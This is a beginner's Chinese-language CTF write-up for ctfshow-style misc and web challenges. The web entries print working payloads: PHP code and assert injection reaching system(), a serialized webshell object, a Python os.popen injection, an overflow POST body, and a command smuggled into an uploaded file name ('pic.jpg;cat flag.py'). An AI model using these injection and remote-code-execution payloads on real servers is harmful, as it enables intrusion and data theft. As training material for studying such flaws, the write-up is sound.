








## 菜狗入门题writeups

[TOC]

##### 一、杂项签到

使用010 editor查找ASCII的ctf字段，找到flag。

##### 二、损坏的压缩包

使用010 editor查看文件类型，将文件格式改为png。

##### 三、谜之栅栏

使用010 editor的compare files功能找到不同字段。

##### 四、你会数数吗

使用010 editor的histogram功能对可见字符数进行排序。



##### 五、你会异或吗

使用010 editor的hex operations功能进行0x50异或得到正常图片。

##### 六、flag一分为二

额Mac上不好操作直接找了[wp](https://blog.csdn.net/m0_68012373/article/details/128960816)。

##### 七、我是谁

一道网页交互和图像处理的题目，看[脚本](./src/whoami.py)。

##### 八、you and me

盲水印的题目，直接用GitHub开源的BlindWaterMark-master。

##### 九、我吐了你随意

unicode零宽字符的题目，用[网站工具](http://330k.github.io/misc_tools/unicode_steganography.html)解码。

##### 十、web签到

按源代码要求用hackbar提交内容执行打印flag操作。注意使用cookie传参的时候对CTFshow-QQ群:=post_var进行url编码。



##### 十一、我的眼里只有$

```shell
_=a&a=b&b=c&c=d&d=e&e=f&f=g&g=h&h=i&i=j&j=k&k=l&l=m&m=n&n=o&o=p&p=q&q=r&r=s&s=t&t=u&u=v&v=w&w=x&x=y&y=z&z=A&A=B&B=C&C=D&D=E&E=F&F=G&G=H&H=I&I=system('ls /');
```

##### 十二、抽老婆

任意文件读取的题目，下载网页flask框架下的[app.py](./src/getwifi.py)，修改后本地部署，将本地的cookie中session中复制到远程，调用验证session的getflag函数`@app.route('/secret_path_U_never_know',methods=['GET'])`，也可以看网上另一种[方法](https://blog.csdn.net/weixin_45908624/article/details/128575744?ops_request_misc=&request_id=&biz_id=102&utm_term=ctfshow%20抽老婆&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-3-128575744.142%5Ev81%5Ekoosearch_v1,201%5Ev4%5Eadd_ask,239%5Ev2%5Einsert_chatgpt&spm=1018.2226.3001.4187)。

##### 十三、一言既出

```php
第一种payload	?num=114514);//		形成括号闭合后直接注释后面的内容
第二种payload	?num=114514%2b1805296		使用url编码的加号，在弱类型相等时只检测%前面的内容，后面则会执行加法
第三种payload	?num=114514);(19199810		形成括号闭合后assert("intval(114514);(19199810)==1919810")进行绕过
```

##### 十四、驷马难追

和十三相同，只是增加了过滤规则，使用url编码绕过即可，第二种payload也同样适用。

##### 十五、TapTapTap

相信自己的手速可以玩玩看（用手机玩很容易过），最终会得到路径，实际上直接看源代码就行了，找到游戏结束的输出用base64解码得到同样的提示信息。





##### 十六、Webshell

看一下源代码可知是反序列化的题目，那么构造简单的payload用[PHP在线运行](https://www.jyshare.com/compile/1/)进行序列化，对cmd进行payload传参查看源代码。

```php
$poc = new Webshell();
$poc->cmd='cat fla*';
echo serialize($poc);
//		O:8:"Webshell":1:{s:3:"cmd";s:8:"cat fla*";}
```

##### 十七、传说之下（雾）

既然是js就可以篡改数据，查看game.js源代码，在控制台将Game中的score改为通关分数即可查看到flag。






##### 十八、算力超群

```shell
payload：
/_calculate?number1=&operator=&number2=__import__('os').popen('cat /f*').read()
```

##### 十九、茶歇区

用hackbar好像操作不了，被迫投奔bp抓包，只是一道数值溢出的 ~~pwn~~ web题。先操作一次再把得到的post方法发给repeater，用以下的payload重发两次即可。但是e为什么是这么多个9还不清楚原因，貌似换成其他数量不能成功。

```PHP
a=0&b=0&c=0&d=0&e=999999999999999999&submit=%E5%8D%B7%E4%BA%86%E5%B0%B1%E8%B7%91%EF%BC%81
```





##### 二十、小舔田？

反序列化的题，看[payload](./src/serial.php)代码丢进去运行即可，得到的序列化参数为

```php
?code=O%3A4%3A"Moon"%3A1%3A%7Bs%3A4%3A"name"%3BO%3A16%3A"Ion_Fan_Princess"%3A1%3A%7Bs%3A8%3A"nickname"%3Bs%3A9%3A"小甜甜"%3B%7D%7D
```

##### 二十一、LSB探姬

源代码中可以明显发现文件上传漏洞，我们只需要在上传文件时添加想要执行的命令即可

```python
 cmd="python3 tsteg.py upload/"+f.filename
```

将一张图片pic.jpg修改命名为pic.jpg;cat flag.py即可。
